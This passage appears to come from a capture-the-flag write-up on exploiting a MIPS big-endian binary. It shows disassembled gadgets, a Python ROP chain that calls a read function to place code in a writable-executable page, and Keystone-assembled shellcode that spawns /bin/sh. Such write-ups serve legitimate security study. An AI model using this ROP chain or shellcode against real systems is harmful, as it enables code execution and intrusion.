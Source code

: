   * By re-using gadget@0x00403ba4 with 0x004038e8, we use `$s2` to control `$a1`
```bash
.text:004038E8 move    $a1, $s2
.text:004038EC lw      $ra, 0x30+var_4($sp)
.text:004038F0 lw      $s4, 0x30+var_8($sp)
.text:004038F4 lw      $s3, 0x30+var_C($sp)
.text:004038F8 lw      $s2, 0x30+var_10($sp)
.text:004038FC lw      $s1, 0x30+var_14($sp)
.text:00403900 lw      $s0, 0x30+var_18($sp)
.text:00403904 sltiu   $v0, 1
.text:00403908 jr      $ra
```

We can chain those 4 gadgets to entirely control `$a0` and `$a1` and then call
`read_passwords` to write a `execve('/bin/sh')` shellcode into one of fixed RWX pages (I've
chosen 0x004a8a00).


```python
log.info("preparing ropchain")
sfp = p32(0x004a8000)
set_s2 = p32(0x403BA4)
set_v0 = p32(0x403BBC)
set_a0 = p32(0x403B98)
set_a1 = p32(0x4038e8)
read_passwords = p32(0x004015E8)
a0 = p32(0x004a8a00)
a1 = p32(0x100)
p = 'YOLO'*2 + sfp
p+= set_s2 + 'YOLO'*8 + a0 + set_v0 + p32(0)*9 + set_a0 + "YOLO"*8 + 'ZZZ'
p+= set_s2 + 'YOLO'*8 + a1 + set_a1 + 'YOLO'*10 + 'Z'*3
p+= read_passwords + "YOLO"*9 + p32(0x4a8a00)
payload = p.ljust(303, "Z")
r.send(payload[:102])
r.send(payload[102:204])
r.send(payload[204:])
```


#### Shellcode crafting ####

For some reasons, the different shellcodes I had from external resources did not
work. So I decided to use [Keystone Engine](http://www.keystone-engine.org) to
write one. Instead of writing totally from scratch, I used a template created
earlier as part of my project
[`cemu`](https://github.com/hugsy/cemu/blob/main/cemu/examples/mipsbe_sys_exec_bin_sh.asm)
 and adapted it:

```python
log.info("preparing shellcode")
shellcode = [
  "li $sp, 0x4a8b00",
  "li $v0, 0x2f62696e",
  "sw $v0, 0($sp)",
  "li $v0, 0x2f736800",
  "sw $v0, 4($sp)",
  "li $v0, 4011",
  "move $a0, $sp",
  "addiu $a1, $zero, 0",
  "addiu $a2, $zero, 0",
  "syscall",
]

arch, mode, endian = keystone.KS_ARCH_MIPS, keystone.KS_MODE_MIPS32, keystone.KS_MODE_BIG_ENDIAN
ks = keystone.Ks(arch, mode | endian)
sc, cnt = ks.asm(shellcode)
log.info("keystone compiled %d instructions" % cnt)
```